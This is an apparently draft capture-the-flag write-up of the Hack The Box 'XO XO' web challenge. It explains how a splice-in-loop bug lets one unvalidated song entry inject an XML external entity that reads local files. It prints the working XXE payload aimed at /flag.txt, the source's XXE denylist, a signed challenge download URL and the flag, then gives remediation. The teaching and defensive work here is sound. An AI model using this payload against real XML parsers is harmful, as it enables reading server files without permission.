



# XO XO Writeup

[TOC]

## Overview

- This challenge gives us a website where users can create song cards for different artists and songs.
- The challenge provides the full source code as a zip file. Download link: `https://labs.hackthebox.com/api/v4/challenge/download/1953?auth_user_id=2752957&expires=1794821362&signature=651ed71d8e98c4bb8ad5151f0338ef9977c1e2b028cd8f3823c630bfc14da2f8`
- Project structure after extraction:

```text
web_xo_xo_exploit/
├── build-docker.sh      --> docker build script
├── Dockerfile           --> web app configuration (WORKDIR /app)
├── entrypoint.sh        --> generates a random JWT secret at container start
├── index.js             --> main application logic
├── package.json         --> dependency manifest
└── public/              --> frontend source code
```

### Dockerfile

```dockerfile
FROM node:18-slim

WORKDIR /app

COPY package*.json ./
RUN apt-get update -y && \
    apt-get install -y openssl

RUN npm install
COPY . .

RUN mv flag.txt /flag.txt

ENV OPENSSL_CONF=/dev/null

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

ENV PORT=1337
EXPOSE $PORT

ENTRYPOINT ["/entrypoint.sh"]
CMD ["npm", "start"]
```

The app runs from `/app`, but the Dockerfile moves `flag.txt` to the **root filesystem** (`/flag.txt`) before boot. So the real target path is `/flag.txt`, not `app/flag.txt`.

## Source Code Analysis (`index.js`)

### Authentication

The site requires registration and login. On login, the server issues a JWT:

```javascript
const token = jwt.sign(
    { id: user.id, username: user.username, role: user.role },
    JWT_SECRET,
    { expiresIn: '24h' }
);
```

The role is hard-coded to `user` at registration time, and the secret is randomly generated per-container by `entrypoint.sh`. After reviewing the code, there is **no path to privilege escalation or token forgery** — every request to the API must carry a valid JWT for an authenticated user. Two accounts (`admin`, `user`) already exist, but their password hashes can't be reversed. So the attack has to happen through a normal, authenticated user account.

### Input validation — the blacklist

```javascript
const forbiddenPatterns = [
    /<!/i, /SYSTEM/i, /ENTITY/i, /DOCTYPE/i, /xmlns/i,
    /xsi:/i, /schemaLocation/i, /noNamespaceSchemaLocation/i
];

const sanitizeInput = (input) => {
    if (!input || typeof input !== 'string') {
        return false;
    }

    for (const pattern of forbiddenPatterns) {
        if (pattern.test(input)) {
            return false;
        }
    }
    return true;
};
```

Every pattern here targets XML/DTD syntax (`<!`, `ENTITY`, `SYSTEM`, `DOCTYPE`, namespace declarations). That's a strong signal: the input eventually ends up inside raw XML somewhere, and the developer already anticipated XXE — hence this (seemingly solid) denylist.

### `/createSongCards` — the vulnerable endpoint

```javascript
app.post('/createSongCards', authenticateToken, async (req, res) => {
    try {
        var songs = Array.from(req.body);
        if (songs.length < 3) {
            return res.status(400).json({ error: 'You have to talk about at least 3 songs!' })
        }

        const userId = req.user.id;

        for (var i = 0; i < songs.length; i++) {
            const song = songs[i];

            if (!song.songName || !song.artist || !song.thoughts) {
                return res.status(400).json({ error: 'Missing required fields: songName, artist, thoughts' });
            }

            if (typeof (song.songName) !== 'string' || typeof (song.artist) !== 'string' || typeof (song.thoughts) !== 'string') {
                return res.status(400).json({ error: 'Fields should all be a string!' });
            }

            if (song.songName.length > 100 || song.artist.length > 100 || song.thoughts.length > 1_000) {
                return res.status(400).json({ error: 'Fields too long...' });
            }

            if (!sanitizeInput(song.songName) || !sanitizeInput(song.artist) || !sanitizeInput(song.thoughts)) {
                return res.status(400).json({ error: 'Try harder lmao' });
            }

            if (song.artist.toLowerCase().includes('drizzy') ||
                song.artist.toLowerCase().includes('drake')) {
                songs.splice(i, 1);
                continue;
            }
        }

        for (var song of songs) {
            const xml = `<?xml version="1.0" encoding="UTF-8"?>
                    <!DOCTYPE songCard [
                        <!ENTITY songName "${song.songName}">
                        <!ENTITY artist "${song.artist}">
                        <!ENTITY thoughts "${song.thoughts}">]>
                    <songCard>
                        <cardInfo>
                            <songName>&songName;</songName>
                            <artist>&artist;</artist>
                            <thoughts>&thoughts;</thoughts>
                            <createdAt>${new Date().toISOString()}</createdAt>
                        </cardInfo>
                        <metadata>
                            <version>1.0</version>
                            <format>XML</format>
                        </metadata>
                    </songCard>`;

            const doc = libxmljs.parseXml(xml, { replaceEntities: true });

            const songNameElement = doc.get('//songName');
            const artistElement = doc.get('//artist');
            const thoughtsElement = doc.get('//thoughts');
            const createdAtElement = doc.get('//createdAt');

            const songData = {
                songName: songNameElement ? songNameElement.text() : '',
                artist: artistElement ? artistElement.text() : '',
                thoughts: thoughtsElement ? thoughtsElement.text() : '',
                createdAt: createdAtElement ? createdAtElement.text() : new Date().toISOString()
            };

            if (!userSongs[userId]) {
                userSongs[userId] = [];
            }
            userSongs[userId].push({
                id: Date.now() + Math.random(),
                userId: userId,
                createdAt: new Date().toISOString(),
                songData: songData
            });
        }

        return res.status(200).json({
            success: true,
            message: "Song cards created!",
        });

    } catch (error) {
        console.error('Error creating card:', error.message);
        res.status(500).json({
            error: 'Failed to create card',
            message: error.message,
        });
    }
});
```

The endpoint requires at least 3 songs, validates each field (presence, type, length, blacklist), strips out any song whose `artist` contains `drake`/`drizzy`, then — for every song that survives — **builds an XML document by raw string interpolation** and parses it with `libxmljs.parseXml(xml, { replaceEntities: true })`.

## Vulnerability Analysis

This bug is really **two separate flaws that only become exploitable when chained together**.

### Root cause #1 — Unsafe XML sink (the actual XXE)

Two things make the parsing step dangerous on its own, independent of the blacklist:

1. **No escaping on interpolation.** `song.songName`, `song.artist`, `song.thoughts` are dropped directly into the XML/DTD text with template literals. Any `"`, `<`, `>` the attacker controls can break out of the intended XML structure.
2. **`libxmljs.parseXml(xml, { replaceEntities: true })` resolves external entities by default.** `replaceEntities: true` tells libxml2 to substitute entity references with their declared value — including `SYSTEM` entities that point at a local file path. Nothing in this call disables DTD/entity loading (no `noent: false`, no blocking of the `file://` scheme). So *if* an attacker can get a `<!ENTITY x SYSTEM "file:///...">` declaration into the DOCTYPE, the parser will happily read that file and hand its contents back through `doc.get('//artist').text()`.

The `forbiddenPatterns` denylist is the *only* thing standing between "the sink exists" and "the sink is exploitable."

### Root cause #2 — Blacklist bypass via array mutation during forward iteration

```javascript
for (var i = 0; i < songs.length; i++) {
    const song = songs[i];
    // ...validation on song...
    if (song.artist.toLowerCase().includes('drake')) {
        songs.splice(i, 1);
        continue;
    }
}
```

`splice(i, 1)` removes the current element and **shifts every later element one index to the left** — but the loop still does `i++` on `continue`. The element that lands on index `i` after the shift is never visited by the loop body, so it skips validation entirely (no field check, no length check, and critically, **no `sanitizeInput` call**).

Minimal illustration with the same array shape used in the real exploit (`[drake, payload, filler]`):

| Step | `i` | `songs` (live array)        | What happens |
|------|-----|------------------------------|--------------|
| start| 0   | `[drake, payload, filler]`   | `song = drake` → artist contains "drake" → `splice(0,1)` |
| after splice | 0 | `[payload, filler]`    | array shrank, `payload` is now at index 0 |
| loop increments | **1** | `[payload, filler]`| `i` becomes 1 → `song = songs[1] = filler` |

**`payload` (index 0 after the shift) is never read by the loop at all** — it's skipped between the splice and the next iteration. It still exists in the `songs` array, so it still gets processed by the second loop that builds and parses XML — just with zero validation applied.

This is what turns a "secure-looking" denylist into a bypassable one: the filter logic itself is sound, but the iteration pattern around it lets one attacker-chosen element slip past unchecked.

## Exploitation

### Step 1 — Register and authenticate

```http
POST /api/register HTTP/1.1
Content-Type: application/json
{"username":"attacker","password":"Password123!","confirmPassword":"Password123!"}
```

```http
POST /api/login HTTP/1.1
Content-Type: application/json

{"username":"attacker","password":"Password123!"}
```

→ grab the JWT from the login response; it's needed as a Bearer token on every call below.


### Step 2 — Craft the bypass payload


Three song objects, in this exact order:

1. **Decoy** — `artist` contains `"drake"` so the validation loop deletes it and skips the next element.

2. **Payload** — never validated; `songName` breaks out of its own `ENTITY` declaration and injects a new `SYSTEM` entity for `artist`.
3. **Filler** — a normal, harmless song, only needed to satisfy `songs.length >= 3` on the initial check.

```json
[
  {
    "songName": "dummy",
    "artist": "drake",
    "thoughts": "dummy"
  },
  {
    "songName": "x\"> <!ENTITY artist SYSTEM \"file:///flag.txt\"> <!ENTITY thoughts \"",
    "artist": "placeholder",
    "thoughts": "placeholder"
  },
  {
    "songName": "Blinding Lights",
    "artist": "The Weeknd",
    "thoughts": "Great song"
  }
]
```


Tracing how the `songName` value lands in the server's template (`<!ENTITY songName "${song.songName}">`):

```xml
<!ENTITY songName "x">                                   <!-- closes cleanly -->
<!ENTITY artist SYSTEM "file:///flag.txt">                <!-- our injected external entity -->
<!ENTITY thoughts "">                                     <!-- absorbs the template's trailing closing quote -->
<!ENTITY artist "placeholder">                            <!-- ignored: first declaration of `artist` wins in DTD -->
<!ENTITY thoughts "placeholder">]>                        <!-- ignored: first declaration of `thoughts` wins -->
```



All three resulting `ENTITY` declarations are well-formed, so `libxmljs` parses the document without error — and because `artist` now resolves to a `SYSTEM` external entity, `&artist;` in the body gets replaced with the contents of `/flag.txt`.

> Initial proof-of-concept used `file:///etc/passwd` to confirm arbitrary local file read before pivoting to `file:///flag.txt`.

### Step 3 — Send the exploit request

```http
POST /createSongCards HTTP/1.1

Host: <target>

Authorization: Bearer <JWT from Step 1>

Content-Type: application/json


[ ...the 3 song objects from Step 2... ]
```

### Step 4 — Retrieve the result




> **⚠️ To fill in:** `/createSongCards` itself only returns `{"success": true, "message": "Song cards created!"}` — it does **not** echo `songData` back in the response. The extracted file content lives in server-side state (`userSongs[userId]`), so there must be a separate read path (e.g. a `GET` route backing the dashboard, or a `/api/songs`-style endpoint) that was used to actually view the resolved `artist` field and read the flag. That route wasn't included in the source excerpts analyzed above — add the exact endpoint/request you used here so the writeup is fully reproducible end-to-end.

## Flag

`HTB{bb8549ee680fc665ad01049458d59a81}`

## Root Cause Summary

| # | Weakness | Where |
|---|----------|-------|
| 1 | Untrusted input concatenated directly into XML/DTD text (no escaping) | `index.js`, XML template in `/createSongCards` |
| 2 | XML parser resolves external (`SYSTEM`) entities by default | `libxmljs.parseXml(xml, { replaceEntities: true })` |

| 3 | Denylist-based filtering can be fully bypassed for one array element | `splice()` inside a forward `for` loop with `continue` |


Flaw #3 is what makes #1 and #2 exploitable in practice — without the loop bug, the denylist alone would block every known XXE marker (`<!`, `ENTITY`, `SYSTEM`, `DOCTYPE`, ...).

## Remediation


- **Never build XML via string interpolation of untrusted input.** Use an XML library that escapes special characters, or avoid user-controlled values in DTD/entity declarations entirely.
- **Disable DTD processing / external entity resolution** at the parser level — don't pass `replaceEntities: true` on untrusted input, and explicitly disable DTD loading / network+file entity resolution (equivalent of `noent: false`, `dtdload: false`, `nonet` in libxml2) regardless of any input filtering.
- **Fix the iteration bug**: don't mutate an array with `splice()` while iterating it forward. Use `Array.prototype.filter()` to build the validated list first, or decrement `i` after a splice, or iterate backward.
- **Validate the final constructed document, not just raw field values** — a denylist on pre-processed input can always be bypassed by a logic error elsewhere in the pipeline; defense-in-depth means checking the actual XML that gets parsed.

---

**Author:** @KKhao
**Solved:** 16/11/2026

> Note: screenshots in the original draft are hosted on `hackmd.io` — before publishing to GitHub, consider re-uploading them into an `/assets` folder in the repo so the images don't break if the hackmd links expire.
